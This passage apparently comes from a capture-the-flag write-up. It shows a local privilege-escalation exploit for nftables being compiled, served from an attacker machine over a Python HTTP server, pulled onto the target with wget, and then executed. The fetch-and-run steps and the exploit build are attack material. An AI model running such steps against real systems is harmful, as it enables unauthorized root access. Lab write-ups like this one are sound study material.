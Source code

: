 Compiled it.

```bash
$ make
go build
go: downloading golang.org/x/sys v0.0.0-20211205182925-97ca703d548d
go: downloading github.com/google/nftables v0.0.0-20220611213346-a346d51f53b3
go: downloading github.com/vishvananda/netns v0.0.0-20180720170159-13995c7128cc
go: downloading github.com/mdlayher/netlink v1.4.2
go: downloading github.com/josharian/native v0.0.0-20200817173448-b6b71def0850
go: downloading github.com/mdlayher/socket v0.0.0-20211102153432-57e3fa563ecb
go: downloading golang.org/x/net v0.0.0-20211209124913-491a49abca63
gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper
zip lpe.zip exploit wrapper
  adding: exploit (deflated 42%)
  adding: wrapper (deflated 83%)
```

Transfered the files `exploit` and `wrapper` to the target.

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
```

```bash
root@webserver:/tmp$ wget 10.10.14.8:8181/exploit
--2024-08-22 10:02:25--  http://10.10.14.8:8181/exploit
Connecting to 10.10.14.8:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3137336 (3.0M) [application/octet-stream]
Saving to: ‘exploit’
exploit             100%[===================>]   2.99M  1.13MB/s    in 2.6s    
2024-08-22 10:02:28 (1.13 MB/s) - ‘exploit’ saved [3137336/3137336]
```

```bash
root@webserver:/tmp$ wget 10.10.14.8:8181/wrapper
--2024-08-22 10:02:37--  http://10.10.14.8:8181/wrapper
Connecting to 10.10.14.8:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16304 (16K) [application/octet-stream]
Saving to: ‘wrapper’
wrapper             100%[===================>]  15.92K  --.-KB/s    in 0.09s   
2024-08-22 10:02:38 (175 KB/s) - ‘wrapper’ saved [16304/16304]
```

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
10.10.11.241 - - [20/Aug/2024 05:04:29] "GET /exploit HTTP/1.1" 200 -
10.10.11.241 - - [20/Aug/2024 05:04:41] "GET /wrapper HTTP/1.1" 200 -
```

Changed its permissions and executed the `exploit`.
